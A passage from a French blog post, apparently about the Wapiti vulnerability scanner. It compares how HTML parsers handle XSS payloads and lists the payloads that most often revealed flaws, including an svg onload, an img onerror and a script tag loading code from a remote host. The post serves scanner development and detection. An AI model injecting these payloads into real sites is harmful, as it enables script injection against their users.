 Une nouvelle fois seul *html5lib* est capable de délimiter correctement la vraie fermeture de balise.  

Un faux négatif bien embêtant
-----------------------------

Le module XSS de *Wapiti* a une liste de payloads définis dans un fichier `.ini`.  

Parmi ces payloads l'un était placé en bonne position pourtant il ne ressortait jamais dans les vulnérabilités trouvées...  

Après vérification il s'est avérée que *lxml* était tout simplement incapable de parser correctement de payload qui utilise un `/` comme séparateur entre la balise et son attribut au lieu d'un espace :  

```python
>>> page = """<html><head><meta type='yolo' /><body><a><SvG/oNloAd=alert(/__XSS__/)></body></html>"""  

>>> BeautifulSoup(page, "lxml")
<html><head><meta type="yolo"/></head><body><a><svg></svg></a></body></html>

>>> BeautifulSoup(page, "html5lib")
<html><head><meta type="yolo"/></head><body><a><svg onload="alert(/__XSS__/)"></svg></a></body></html>

>>> BeautifulSoup(page, "html.parser")
<html><head><meta type="yolo"/><body><a><svg onload="alert(/__XSS__/)"></svg></a></body></head></html>
```

Payloads les plus utilisés
--------------------------

Voici la liste des payloads qui sont le plus remontés dans les failles découvertes.  

Le premier cas s'explique tout simplement par le fait que quand un contenu est mal protégé, c'est tout simplement qu'il ne l'est pas du tout :  

```html
<ScRiPt>alert('__XSS__')</sCrIpT>
```

Le second cas correspond simplement aux webmasters pensant que le Javascript ne peut être appelé que via une balise script, oubliant la longue liste des événements que l'on peut spécifier sur les balises HTML :  

```html
<ImG src=z oNeRror=alert("__XSS__")> 
```

Le troisième cas a l'avantage de pouvoir fonctionner même si le payload est passé en majuscule ou capitalisé (première lettre de chaque mot en majuscule). Il passe aussi les cas où le mot `<script>` est bloqué, mais pas sa version avec un espace après `script`.  

```html
<ScRiPt src=https://wapiti3.ovh/__XSS__z.js></ScRiPt>
```
